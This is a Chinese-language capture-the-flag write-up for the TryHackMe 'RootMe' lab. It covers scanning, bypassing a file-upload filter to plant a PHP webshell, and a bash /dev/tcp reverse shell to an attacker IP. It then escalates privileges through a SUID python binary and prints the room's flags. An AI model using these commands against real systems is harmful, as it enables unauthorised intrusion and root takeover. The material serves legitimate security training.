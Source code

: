 # RootMe Writeup
上一篇寫英文的，學得好累喔，以後等心情好再來寫英文WPㄅ，這邊就寫中文的(也有可能出現晶晶體或喵喵體)做個紀錄喵。
> 題目網址 : https://tryhackme.com/room/rrootme
<br>目標IP : 10.10.233.205
## Scanning
- 起手式 nmap
    - `nmap -A 10.10.233.205`
    - ![](https://i.imgur.com/mLaLomQ.png)
        - 22 : SSH
            - 7.6p1 有枚舉的漏洞 CVE-2018-15473
            - https://github.com/sriramoffcl/OpenSSH-7.6p1-Exploit-py-/blob/master/45233.py
        - 80 : Apache
            - Apache httpd 2.4.29
- nmap 掃描的同一時間，先打開網頁看看
    - ![](https://i.imgur.com/NejdpQC.png)
    - 網頁起手式 dirsearch
        - `python3 dirsearch.py -u http://10.10.233.205/ -e all`
        - 看起來可能會有趣的路徑
            - `/panel/`
            - `/uploads/`
## 上傳 webshell
- `/panel/` 可以上傳檔案
    - ![](https://i.imgur.com/QOZqOa5.png)
    - 用 Wappalyzer 可以確定他是 PHP
        - ![](https://i.imgur.com/awe80bs.png)
- 上傳個 b374k.php
    - ![](https://i.imgur.com/b6tqtn1.png)
    - 會噴錯，Google翻譯說 `PHP是不允許的！` (葡萄牙文)
- 使用 php 副檔名解析漏洞測試
    - Apache 1.x 2.x 文件解析特性
        - BJ4
    - 測試檔名 `b374k.php.aaa`
        - ![](https://i.imgur.com/ZIsfjUj.png)
            - Google 翻譯 :`文件上傳成功！`
## 使用 Webshell
- 點下面的 `Veja!` 會跳轉到 `http://10.10.233.205/uploads/b374k.php.aaa`
    - ![](https://i.imgur.com/QYfQaPb.png)
    - 使用預設密碼就能進入 shell
## 戳入 Reverse Shell
- Webshell 滿好用的，但是Reverse shell用起來更爽
    - 確認攻擊機 ip 為 10.14.7.198
        - 終端機輸入 `nc -vlk 7877`
    - webshell 的 Terminal 輸入
        - `bash -c 'bash -i >& /dev/tcp/10.14.7.198/7877 0>&1'`
    - 即可順利連上 Reverse shell
        - ![](https://i.imgur.com/iKRzVfo.png)
    - 輸入指令讓他變得更 interactive 一點
        - `python -c 'import pty; pty.spawn("/bin/bash")'`
## 在電腦裡面逛大街
- user.txt
    - ![](https://i.imgur.com/jxS368J.png)
    - `THM{y0u_g0t_a_sh3ll`
## 設法提權
- 使用內建的上傳功能上傳 LinEnum.sh
    - 開權限 `chmod +x LinEnum.sh`
    - 執行，並存到檔案 `./LinEnum.sh | tee meow.txt`
    - 基本上優先注意紅色、橘色的東西
        - ![](https://i.imgur.com/ikR24Co.png)
- 找到有趣ㄉ東西!!
    ```
    [+] Possibly interesting SUID files:
    -rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
    ```
    - 也就是說 `/usr/bin/python` 可以用 SUID 執行
    - 到 [GTFOBins](https://gtfobins.github.io/) 找 Python 有 SUID 的提權方法
        - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

## 提權成功!!
- ![](https://i.imgur.com/jeFvVXw.png)
- Flag : `THM{pr1v1l3g3_3sc4l4t10n}`
